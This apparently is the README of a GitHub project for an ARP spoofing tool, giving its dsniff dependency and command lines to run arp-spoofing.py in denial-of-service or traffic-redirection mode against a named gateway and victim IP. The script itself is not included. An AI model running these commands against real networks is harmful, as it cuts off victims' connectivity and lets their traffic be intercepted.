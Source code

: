 # Hacking-arp-spoofing-DOS.Sniffing
## MAC Address souplantation
### Dependencies
dsniff (sudo apt-get install dsniff)
### Attack
```
sudo python arp-spoofing.py <Number 0=DoS, 1=Redirect traffic> <interface> <gateway> <victim>
```
### Example
```
sudo python arp-spoofing.py 1 eth0 192.168.1.1 192.168.1.250
```
